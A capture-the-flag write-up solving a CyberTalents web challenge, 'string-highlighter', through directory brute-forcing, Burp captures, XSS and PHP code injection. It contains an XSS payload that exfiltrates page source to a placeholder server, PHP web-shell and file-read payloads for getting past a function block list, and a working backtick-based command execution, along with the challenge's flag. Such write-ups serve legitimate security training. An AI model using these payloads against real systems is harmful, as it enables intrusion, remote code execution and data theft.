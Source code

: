 # Solve string-highlighter
#### https://cybertalents.com/challenges/web/string-highlighter
![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
No output

### Analyze the source code 
We found JS function
```js
   <script type="text/javascript">
    	$('.sub').on('click',function(){
    		var color = $('select').val();
    		var txt = $('textarea').val();
    		var stringToParse = color + ':' + txt;
    		$.post('',{stp:stringToParse},function(data){
    			$('.preview').html(data);
    		});
    	});
    </script>
```
This JavaScript code uses jQuery to handle a form submission and send data to the server via an AJAX POST request.

### Analyze with Burp
#### request
```http
POST / HTTP/1.1
Host: wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 14
Origin: http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com/
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0

stp=red%3Atest
```
*Note: the request is crafted as `red:test` color:string.*
#### Response 
```http
HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Tue, 04 Feb 2025 17:08:06 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 34

<div style="color:red;">
    test
</div>
```
*Note: that the input reflect in the div tag.*

### XSS
```js
<script>alert('m_1337')</script>
```
![alt text](images/image-1.png)

#### Read the source code 
##### Confirm the source code is `index.php`
```bash
curl -I  http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com/index.php
HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Wed, 05 Feb 2025 14:35:03 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
```
#### Try to read the sorce code
```js
black:<script><?php show_source(./index.php);?></script>
```
Response : Code contains php code , php codes is forbidden

```js
<script>
    fetch('/index.php')
      .then(response => response.text())
      .then(data => {
        fetch('https://<your-server>', {
          method: 'POST',
          mode: 'no-cors',
          body: btoa(data) 
        });
      });
  </script>
```
it doesn't work

#### RCE
```js
<script>
  fetch('/path-to-vulnerable-endpoint', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'stp=red:<?php system($_GET["cmd"]); ?>'
  });</script>
```
Response : Code contains php code , php codes is forbidden

### Bypass php code restriction 
#### PHP Short tag (`<?=`)
```php
<?= file_get_contents("index.php"); ?>
```
Response : Code contains php code , php codes is forbidden
```php
echo('m_1337');
```
![alt text](images/image-2.png)
So most likely the restrection is black list of php functions.
#### Try different functions to bypass the black list
```php
<?= print_r(file("index.php")); ?>
<?= highlight_file("index.php"); ?>
<?= var_dump(include("index.php")); ?>
<?= var_dump(include("index.php")); ?>
<?= highlight_string(file_get_contents("index.php")); ?>
<?= $fp = fopen("index.php", "r"); echo fread($fp, filesize("index.php")); fclose($fp); ?>
<?= while (!feof($fp)) { echo fgets($fp); } ?>
<?= readfile("index.php"); ?>
```
ALL Response : Code contains php code , php codes is forbidden
#### RCE via echo with `` (backticks) bypass
```php
echo `whoami`;
```
![alt text](images/image-3.png)
```php
echo `ls`;
```
flag_h@cked_pWn
index.php

We can Read both the flag and the source code 
*The source code is in [index.php](index.php)*
flag : kshd125fddw

#### Resources:
[HackTricks PHP Tricks](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)

>Find More on ==> github.com/MedhatHassan 
